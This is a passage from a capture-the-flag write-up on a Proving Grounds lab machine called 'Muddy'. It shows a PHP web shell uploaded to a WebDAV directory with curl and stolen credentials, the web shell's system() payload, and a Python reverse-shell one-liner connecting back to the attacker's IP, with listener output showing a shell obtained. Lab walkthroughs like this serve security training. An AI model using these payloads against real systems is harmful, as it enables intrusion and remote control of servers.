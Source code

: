 Create a web shell or a php shell and upload it to the webdav directory using curl.

```sh
naveenj@hackerspace:|22:32|~/proving_grounds/Muddy$ curl -XPUT -d @shell.php http://muddy.ugc/webdav/shell.php -u 'administrant:sleepless'
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>201 Created</title>
</head><body>
<h1>Created</h1>
<p>Resource /webdav/shell.php has been created.</p>
<hr />
<address>Apache/2.4.38 (Debian) Server at muddy.ugc Port 80</address>
</body></html>
```

Directo to `webdav` directory and trigger the shell.

![img](/assets/images/CTF/Proving_Grounds/Muddy/webdav2.png)

**PHP Code Execution Payload**

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

Now check the python version and create reverse shell payload and obtain reverse shell.

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.200",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

```sh
naveenj@hackerspace:|22:38|~/proving_grounds/Muddy$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.45.200] from (UNKNOWN) [192.168.196.161] 40106
www-data@muddy:/var/www/html/webdav$
```

